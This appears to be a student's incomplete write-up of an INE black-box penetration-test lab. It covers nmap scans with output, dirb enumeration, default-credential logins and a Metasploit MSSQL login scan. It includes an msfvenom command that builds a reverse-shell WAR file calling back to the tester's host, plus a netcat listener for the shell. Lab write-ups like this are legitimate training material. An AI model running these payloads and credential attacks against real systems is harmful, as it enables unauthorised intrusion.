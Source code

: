 # Rachel Murphy
# INE-8/20/21
# Black Box Pen Test 1

# Scenario
- You have been engaged in a Black-box Penetration Test (172.16.64.0/24 range). Your goal is to read the flag file on each machine. On some of them, you will be required to exploit a remote code execution vulnerability in order to read the flag.
- Some machines are exploitable instantly but some might require exploiting other ones first. Enumerate every compromised machine to identify valuable information, that will help you proceed further into the environment.
- If you are stuck on one of the machines, don't overthink and start pentesting another one.
- When you read the flag file, you can be sure that the machine was successfully compromised. But keep your eyes open - apart from the flag, other useful information may be present on the system.

# Goals
- Discover and exploit all the machines on the network
- Read all flag files (one per machine)

# What you will learn
- How to exploit Apache Tomcat
- How to exploit SQL server
- Post Exploitation Discovery
- Arbitrary file upload exploitation

# Recommended Tools
- Dirb
- Metasploit framework
- Nmap 
- Netcat

---

1. Find alive hosts on the network.

`nmap -sn 172.16.64.0/24`

```
Nmap scan report for 172.16.64.101
Host is up (0.12s latency).
MAC Address: 00:50:56:A2:52:F0 (VMware)
Nmap scan report for 172.16.64.140
Host is up (0.11s latency).
MAC Address: 00:50:56:A2:E4:85 (VMware)
Nmap scan report for 172.16.64.182
Host is up (0.059s latency).
MAC Address: 00:50:56:A2:B1:61 (VMware)
Nmap scan report for 172.16.64.199
Host is up (0.057s latency).
MAC Address: 00:50:56:A2:BF:51 (VMware)
Nmap scan report for 172.16.64.10
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 5.24 seconds
```
Five hosts are up.

Performing service detection scan against all targets.

`sudo nmap -sV -sS -v 172.16.64.10,101,140,182,199 -oN servicescan.txt`

Nmap results for `172.16.64.101` -pwn. 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
9080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:50:56:A2:52:F0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap results for `172.16.64.140` -

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 00:50:56:A2:E4:85 (VMware)
```
Nmap results for `172.16.64.182`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
MAC Address: 00:50:56:A2:B1:61 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap results for `172.16.64.199`

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2014 12.00.2000
MAC Address: 00:50:56:A2:BF:51 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
- Beginning with `172.16.64.101` and visiting the webserver over port 8080.

Using DIRB with `dirb http://172.16.64.101:8080/ /usr/share/dirb/wordlists/vulns/apache.txt`

Apache Tomcat Manager Auth Page at http://172.16.64.101:9080

Logged into webapp with username: tomcat password: s3cret

Uploaded .war file exploit with msfvenom (USE LHOST VPN IP!!)
`msfvenom -p java/shell_reverse_tcp lhost=172.16.64.10 lport=1996 -f war -o 2pwn.war`
Set up netcat listener and then deploy the 2pwn .war file
`nc -lvnp 1996` 
Remote connection made and locate the flag.txt files with `locate flag.txt`

- Next target http://172.16.64.140:80
- Apache httpd 2.4.18
Enumerating directories with dirb.
`dirb http://172.16.64.140:80 /usr/share/wordlists/dirb/common.txt`
Navigated to the /project directory
Entered credentials: admin:admin
and.....accessed web browser. potential SQLi
Enumerate harder.
dirb http://172.16.64.140/project -u admin:admin 

INTERESTING DIRECTORY
http://172.16.64.140/project/backup/test/sdadas.txt
Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt
![mysqlcreds](https://user-images.githubusercontent.com/76081641/130326946-f9519d7e-60da-4d55-a8a1-499906bcd998.png)


Using metasploit console to enumerate logins for the remote host.

`msf6> use auxiliary/scanner/mssql/mssql_login`
![auxiliary](https://user-images.githubusercontent.com/76081641/130326924-ed89e4fc-9e8b-411b-b087-62ef2c01bdd8.png)


- Next target `172.16.64.182`


- Next target `172.16.64.199`

